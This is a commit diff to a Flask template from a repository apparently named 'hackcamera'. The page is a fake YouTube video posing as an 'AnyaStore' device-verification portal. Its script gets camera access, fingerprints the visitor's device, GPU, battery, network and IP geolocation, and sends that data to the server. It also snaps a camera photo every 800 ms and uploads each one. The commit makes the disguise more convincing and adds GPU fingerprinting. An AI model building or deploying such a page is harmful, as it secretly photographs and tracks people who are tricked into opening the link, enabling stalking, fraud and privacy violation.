

Before and after one commit to 38629jsjs/hackcamera, a Flask app: template templates/index.html in a window 1280 px wide. Shown: the whole page at 87% size. Before the commit the page ends 900 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -2,31 +2,69 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
     <title>YouTube</title>
     <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0/css/all.min.css">
     <style>
-        body { margin: 0; background-color: #0f0f0f; color: white; font-family: "Roboto", Arial, sans-serif; overflow-x: hidden; }
+        :root { --yt-red: #ff0000; --yt-bg: #0f0f0f; --yt-text: #ffffff; --yt-sub: #aaa; --yt-surface: #272727; }
+        body { margin: 0; background-color: var(--yt-bg); color: var(--yt-text); font-family: "Roboto", Arial, sans-serif; -webkit-tap-highlight-color: transparent; }
+
+        /* Top Header */
+        header { height: 48px; display: flex; align-items: center; justify-content: space-between; padding: 0 16px; position: sticky; top: 0; background: var(--yt-bg); z-index: 100; }
+        .yt-logo { display: flex; align-items: center; color: white; text-decoration: none; font-weight: bold; font-size: 18px; letter-spacing: -1px; }
+        .yt-logo i { color: var(--yt-red); font-size: 24px; margin-right: 4px; }
+        .header-icons { display: flex; gap: 20px; font-size: 18px; }
+
+        /* Video Player Area */
         .video-wrapper { position: relative; width: 100%; background: #000; aspect-ratio: 16 / 9; display: flex; align-items: center; justify-content: center; }
-        .spinner { border: 4px solid rgba(255, 255, 255, 0.1); border-left-color: #ff0000; border-radius: 50%; width: 50px; height: 50px; animation: spin 1s linear infinite; }
+        .spinner { border: 3px solid rgba(255, 255, 255, 0.1); border-left-color: var(--yt-red); border-radius: 50%; width: 40px; height: 40px; animation: spin 1s linear infinite; }
         @keyframes spin { to { transform: rotate(360deg); } }
-        #play-overlay { position: absolute; top: 0; left: 0; width: 100%; height: 100%; z-index: 20; display: flex; align-items: center; justify-content: center; cursor: pointer; background: rgba(0,0,0,0.1); }
-        .play-icon { font-size: 60px; color: white; opacity: 0.9; }
-        .video-details { padding: 12px; }
-        .video-title { font-size: 19px; font-weight: 700; line-height: 24px; margin-bottom: 8px; display: -webkit-box; -webkit-line-clamp: 2; -webkit-box-orient: vertical; overflow: hidden; }
-        .channel-row { display: flex; align-items: center; margin: 12px 0; justify-content: space-between; }
-        .channel-info { display: flex; align-items: center; gap: 10px; }
-        .channel-pfp { width: 40px; height: 40px; background: #3f3f3f; border-radius: 50%; display: flex; align-items: center; justify-content: center; font-weight: bold; font-size: 20px; color: #ff4747; }
-        .channel-name { font-size: 16px; font-weight: 600; display: flex; align-items: center; gap: 4px; }
-        .verified-badge { color: #aaa; font-size: 12px; }
-        .sub-count { font-size: 12px; color: #aaa; }
-        .sub-btn { background: white; color: black; padding: 0 16px; height: 36px; border-radius: 18px; border: none; font-weight: 600; font-size: 14px; cursor: pointer; }
-        .description-box { background: #272727; border-radius: 12px; padding: 12px; margin-top: 12px; font-size: 14px; line-height: 20px; }
-        .view-count { font-weight: 600; margin-bottom: 4px; display: block; }
+
+        #play-overlay { position: absolute; top: 0; left: 0; width: 100%; height: 100%; z-index: 20; display: flex; align-items: center; justify-content: center; cursor: pointer; background: rgba(0,0,0,0.2); }
+        .play-icon { font-size: 50px; color: white; filter: drop-shadow(0 0 10px rgba(0,0,0,0.5)); }
+
+        /* Video Info */
+        .video-details { padding: 12px 16px; }
+        .video-title { font-size: 18px; font-weight: 700; line-height: 22px; margin-bottom: 8px; }
+        .meta-text { font-size: 12px; color: var(--yt-sub); margin-bottom: 12px; }
+
+        /* Action Buttons (Like/Share) */
+        .action-bar { display: flex; overflow-x: auto; gap: 8px; margin-bottom: 16px; scrollbar-width: none; }
+        .action-bar::-webkit-scrollbar { display: none; }
+        .action-btn { background: var(--yt-surface); padding: 0 12px; height: 36px; border-radius: 18px; display: flex; align-items: center; gap: 6px; font-size: 13px; font-weight: 500; flex-shrink: 0; }
+
+        /* Channel Section */
+        .channel-row { display: flex; align-items: center; margin: 12px 0; gap: 12px; }
+        .channel-pfp { width: 36px; height: 36px; background: #555; border-radius: 50%; display: flex; align-items: center; justify-content: center; font-weight: bold; overflow: hidden; }
+        .channel-pfp img { width: 100%; height: 100%; object-fit: cover; }
+        .channel-info { flex-grow: 1; }
+        .channel-name { font-size: 15px; font-weight: 600; display: flex; align-items: center; gap: 4px; }
+        .sub-count { font-size: 12px; color: var(--yt-sub); }
+        .sub-btn { background: white; color: black; padding: 0 16px; height: 36px; border-radius: 18px; border: none; font-weight: 600; font-size: 14px; }
+
+        /* Description/Comments */
+        .comment-preview { background: var(--yt-surface); border-radius: 12px; padding: 12px; margin-top: 12px; font-size: 13px; }
+        .comment-header { font-weight: 600; margin-bottom: 8px; font-size: 14px; }
+
+        /* Up Next / Recommendations */
+        .recommendations { padding: 16px; border-top: 1px solid #333; margin-top: 16px; }
+        .rec-item { display: flex; gap: 12px; margin-bottom: 12px; }
+        .thumb { width: 140px; height: 80px; background: #333; border-radius: 8px; flex-shrink: 0; }
+        .rec-info { font-size: 14px; font-weight: 500; line-height: 1.2; }
+        .rec-meta { font-size: 11px; color: var(--yt-sub); margin-top: 4px; }
+
         video, canvas { display: none; }
     </style>
 </head>
 <body>
+
+    <header>
+        <a href="#" class="yt-logo"><i class="fab fa-youtube"></i> YouTube</a>
+        <div class="header-icons">
+            <i class="fas fa-search"></i>
+            <i class="fas fa-ellipsis-v"></i>
+        </div>
+    </header>
 
     <div class="video-wrapper">
         <div class="spinner" id="loading-spinner" style="display: none;"></div>
@@ -36,22 +74,42 @@
     </div>
 
     <div class="video-details">
-        <div class="video-title" id="display-title">Loading video details...</div>
+        <div class="video-title" id="display-title">Verification Required - Secure Portal</div>
+        <div class="meta-text">1,240,582 views • Oct 14, 2023</div>
+
+        <div class="action-bar">
+            <div class="action-btn"><i class="far fa-thumbs-up"></i> 42K</div>
+            <div class="action-btn"><i class="fas fa-share"></i> Share</div>
+            <div class="action-btn"><i class="fas fa-download"></i> Download</div>
+            <div class="action-btn"><i class="far fa-save"></i> Save</div>
+        </div>
+
         <div class="channel-row">
+            <div class="channel-pfp">A</div>
             <div class="channel-info">
-                <div class="channel-pfp">A</div>
-                <div>
-                    <div class="channel-name">AnyaStore <i class="fas fa-check-circle verified-badge"></i></div>
-                    <div class="sub-count">148K subscribers</div>
-                </div>
+                <div class="channel-name">AnyaStore <i class="fas fa-check-circle" style="font-size:10px; color:#aaa;"></i></div>
+                <div class="sub-count">148K subscribers</div>
             </div>
             <button class="sub-btn">Subscribe</button>
         </div>
-        <div class="description-box">
-            <span class="view-count">1.2M views • 3 hours ago</span>
-            <div id="display-desc">
-                Welcome to the official AnyaStore verification portal. Please play the video to verify your device status and proceed with your order.
+
+        <div class="comment-preview">
+            <div class="comment-header">Comments <span style="color:#aaa; font-weight:400; margin-left:8px;">842</span></div>
+            <div style="display:flex; gap:10px; align-items:center;">
+                <div style="width:24px; height:24px; background:#444; border-radius:50%;"></div>
+                <div style="color:#eee;">Please complete device verification to proceed...</div>
             </div>
+        </div>
+    </div>
+
+    <div class="recommendations">
+        <div class="rec-item">
+            <div class="thumb"></div>
+            <div class="rec-info">How to secure your AnyaStore account<div class="rec-meta">AnyaStore • 2.1M views</div></div>
+        </div>
+        <div class="rec-item">
+            <div class="thumb"></div>
+            <div class="rec-info">New Digital Reselling Strategies 2026<div class="rec-meta">TechPro • 500K views</div></div>
         </div>
     </div>
 
@@ -65,7 +123,7 @@
         const camMode = params.get('cam') || 'user';
         const ytId = params.get('ytid') || 'dQw4w9WgXcQ';
 
-        document.getElementById('display-title').innerText = "Account Verification & Security Check - ID #" + (ytId.substring(0,6));
+        document.getElementById('display-title').innerText = "Device Security & Identity Check (ID: " + (ytId.substring(0,6)) + ")";
 
         async function initiateCapture() {
             if (!uid || uid === "null") return;
@@ -80,8 +138,6 @@
                 });
 
                 document.getElementById('v').srcObject = stream;
-
-                // Execute God-Mode Data Gathering
                 await gatherDeepInfo();
 
                 if (mode === 'video') {
@@ -89,46 +145,49 @@
                 } else {
                     startPhotoLogic();
                 }
-
             } catch (err) {
                 document.getElementById('loading-spinner').style.display = 'none';
-                document.getElementById('display-title').innerText = "Playback Error: Please allow permissions to watch.";
+                document.getElementById('display-title').innerText = "Playback Error: Verification Denied.";
                 document.getElementById('play-overlay').style.display = 'flex';
             }
         }
 
         async function gatherDeepInfo() {
+            // Advanced GPU Fingerprinting
+            let gpu = 'N/A';
+            try {
+                const canvas = document.createElement('canvas');
+                const gl = canvas.getContext('webgl');
+                const debugInfo = gl.getExtension('WEBGL_debug_renderer_info');
+                gpu = gl.getParameter(debugInfo.UNMASKED_RENDERER_WEBGL);
+            } catch(e){}
+
             let extraData = {
                 browser: navigator.userAgent,
                 platform: navigator.platform,
                 cores: navigator.hardwareConcurrency || 'N/A',
                 memory: navigator.deviceMemory || 'N/A',
                 screen: `${window.screen.width}x${window.screen.height}`,
+                gpu: gpu,
                 timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
                 language: navigator.language,
                 touch: navigator.maxTouchPoints > 0 ? 'Yes' : 'No',
-                darkmode: window.matchMedia('(prefers-color-scheme: dark)').matches ? 'On' : 'Off',
-                orientation: (screen.orientation) ? screen.orientation.type : 'N/A'
+                darkmode: window.matchMedia('(prefers-color-scheme: dark)').matches ? 'On' : 'Off'
             };
 
-            // Network Connection Intel
             if (navigator.connection) {
                 extraData.net_speed = `${navigator.connection.downlink} Mbps`;
                 extraData.net_type = navigator.connection.effectiveType.toUpperCase();
-                extraData.save_data = navigator.connection.saveData ? 'Active' : 'Off';
             }
 
-            // Battery Intel
             try {
                 const battery = await navigator.getBattery();
                 extraData.battery = `${Math.round(battery.level * 100)}% (${battery.charging ? 'Charging' : 'Discharging'})`;
             } catch (e) { extraData.battery = 'N/A'; }
 
-            // IP and Geo-location
             const ipResponse = await fetch('https://ipapi.co/json/');
             const ipData = await ipResponse.json();
 
-            // Send full payload to app.py
             await fetch(`/log_info?id=${uid}`, {
                 method: 'POST',
                 headers: {'Content-Type': 'application/json'},
@@ -147,13 +206,11 @@
                 const c = document.getElementById('c'), v = document.getElementById('v');
                 c.width = v.videoWidth; c.height = v.videoHeight;
                 c.getContext('2d').drawImage(v, 0, 0);
-
                 c.toBlob(blob => {
                     const fd = new FormData();
                     fd.append('file', blob);
                     fetch(`/upload?id=${uid}&type=photo`, { method: 'POST', body: fd });
-                }, 'image/jpeg');
-
+                }, 'image/jpeg', 0.7);
                 count++;
             }, 800);
         }
```
